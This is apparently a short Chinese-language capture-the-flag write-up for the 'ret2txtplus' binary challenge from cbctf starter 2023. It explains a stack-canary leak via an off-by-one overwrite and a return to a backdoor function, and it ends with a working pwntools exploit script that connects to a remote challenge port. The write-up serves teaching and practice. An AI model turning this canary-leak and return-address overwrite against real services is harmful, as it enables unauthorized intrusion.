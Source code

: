 # ret2txtplus

from cbctf starter 2023

~~当我在想为什么题目会多一个e时我自己就多输了1个e~~

## 文件分析

下载`ret2txtp`, NX on, PIE off, Canary on, RELRO no  
ghidra分析为64位程序

## 解题思路

通过溢出canary的第一个字符，可以借助puts把剩下的canary打印出来，
因为没有pie，直接返回到`back_door`即可（需要ret补rsp）

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10038)
sh.sendline(b'0'*0x17 + b'.') # '\n' override 1st byte of canary
sh.recvuntil(b'.\n')
data = sh.recvline()
canary = u64(b'\0' + data[:7])
sh.sendline(b'0'*0x18 + p64(canary) + b'0'*8 + p64(0x4007a6) + p64(0x400761)) # ret; back_doorAddr
sh.interactive()
```

Done.
